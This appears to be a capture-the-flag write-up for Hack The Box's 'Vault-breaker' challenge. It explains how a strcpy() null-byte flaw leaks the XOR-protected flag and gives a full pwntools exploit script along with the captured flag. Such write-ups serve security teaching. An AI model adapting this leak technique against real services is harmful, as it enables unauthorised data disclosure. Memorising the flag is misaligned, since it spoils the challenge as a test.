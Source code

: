 # Vault-breaker
> Write-up author: jon-brandy
## DESCRIPTION:
Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. 
Something is hidden inside it, can you find out the way it works and bring it to Bonnie?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fee75c8f-8712-4253-86f6-e9d4223e992a)

> BINARY PROTECTIONS 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa77f0fa-38d7-4e28-a6db-91959cbb4fba)


2. After decompiled the binary and analyzed the `secure_password()` function which is the second menu option.
3. I found no vuln and it just perform safe XOR operation for the flag strings.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d86234e-a150-4c78-9edc-335c90fea824)


4. But the bug is at the 1st menu option which is the `new_key_gen()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0e69019-3714-4578-ab4f-556a74383fd2)

5. It checks whether the user input has null byte, then it shall printed out the original char.
6. Well the vuln is at the strcpy(), if we're using strcpy() it does copy the nullbyte (at the end of the strings). For secure coding practice better using memcpy().
7. Anyway the exploit here, is we can leak the flag char one by one by set a position manually for the nullbyte.
8. As we know the program accepts 31 bytes and there's a memset which set 32 bytes of 0 at first.
9. So rather we leak it from the left, we can leak it more easily from the right using for loop.

> SCRIPT TEMP

```py
for i in range(0x1F, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))
```

10. After we leak all the character then we open the second menu to get the flag.

> FULL SCRIPT

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

> TEST LOCALLY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df902d1-7c75-4581-a0d1-14b5872ec7c6)


11. Great we got it locally, but notice we failed to leak the `}`. Kinda confused why because our local flag length is 24.
12. Anyway let's send it remotely.

> REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76bf0af6-9662-4f2d-89b2-4103ac9e8251)


#### NOTES: 
```
The binary at the remote server is very unstable, took me a while to get the flag remotely,i keep terminate and spawn the host again and again.
Because if you tried to leak it manually without the script, you'll notice some char can't be leaked and when you restart the host, it can be leaked.
```

## FLAG
```
HTB{d4nz4_kudur0r0r0}
```


